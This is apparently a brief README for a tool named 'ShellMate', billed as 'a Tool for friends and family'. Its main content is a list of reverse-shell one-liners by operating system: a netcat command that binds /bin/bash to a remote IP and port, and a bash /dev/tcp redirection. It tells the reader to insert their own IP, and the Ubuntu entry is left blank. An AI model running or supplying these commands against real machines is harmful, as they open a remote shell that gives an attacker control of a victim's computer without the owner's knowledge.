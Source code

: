 # ShellMate

This is a Tool for friends and family.

CHANGE THE IP, it needs to be your IP.

Kali | Parrot --> nc -e /bin/bash $IP $PORT
MacOS --> bash -i >& /dev/tcp/$IP/$PORT 0>&1
Ubuntu --> 

Use it well ##
